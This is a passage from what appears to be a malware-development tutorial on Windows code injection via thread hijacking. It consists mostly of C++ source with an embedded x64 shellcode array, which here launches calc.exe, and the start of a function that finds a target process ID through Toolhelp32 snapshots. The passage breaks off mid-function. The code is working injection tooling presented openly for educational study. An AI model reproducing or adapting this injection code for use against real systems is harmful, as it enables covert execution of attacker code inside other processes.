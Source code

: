 ### example

Let's go to look an example which demonstrates this technique:
```cpp
/*
hack.cpp
code injection via thread hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/23/malware-injection-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
```